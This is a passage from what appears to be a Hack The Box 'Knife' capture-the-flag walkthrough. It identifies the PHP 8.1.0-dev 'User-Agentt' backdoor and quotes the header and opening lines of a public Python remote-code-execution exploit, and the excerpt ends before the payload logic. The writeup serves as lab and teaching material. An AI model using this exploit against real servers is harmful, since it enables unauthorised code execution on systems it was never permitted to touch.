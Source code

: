 ```
---------------------------------------------------------------------------
+ 1 host(s) tested
~/Documents/htb/knife » 
```

From here, I had originally done some more enumeration and then looked into SSH as I was stuck. After getting a quick hint from the HTB forums, I realized that all the information needed for the initial foothold had been found.

## Vulnerability

From the nikto scan, we found that this webserver was running a dev version of PHP, which is PHP/8.1.0-dev. After doing some googling, this PHP version has a remote code execution exploit publicly available in [Exploit-DB](https://www.exploit-db.com/exploits/49933) in this python file:

```
\# Exploit Title: PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution                                        
# Date: 23 may 2021                                                                                         
# Exploit Author: flast101                                                                                  
# Vendor Homepage: https://www.php.net/                                                                     
# Software Link:                                                                                            
#     - https://hub.docker.com/r/phpdaily/php                                                               
#    - https://github.com/phpdaily/php                                                                      
# Version: 8.1.0-dev                                                                                        
# Tested on: Ubuntu 20.04                                                                                   
# References:                                                                                               
#    - https://github.com/php/php-src/commit/2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a                       
#   - https://github.com/vulhub/vulhub/blob/master/php/8.1-backdoor/README.zh-cn.md                         
                                                                                                            
"""                                                                                                         
Blog: https://flast101.github.io/php-8.1.0-dev-backdoor-rce/                                                
Download: https://github.com/flast101/php-8.1.0-dev-backdoor-rce/blob/main/backdoor\_php\_8.1.0-dev.py        
Contact: flast101.sec@gmail.com                                                                             
                                                                                                            
An early release of PHP, the PHP 8.1.0-dev version was released with a backdoor on March 28th 2021, but the 
backdoor was quickly discovered and removed. If this version of PHP runs on a server, an attacker can execute arbitrary code by sending the User-Agentt header.
The following exploit uses the backdoor to provide a pseudo shell ont the host.
"""

#!/usr/bin/env python3
import os
import re
import requests

host = input("Enter the full host url:\\n")
request = requests.Session()
```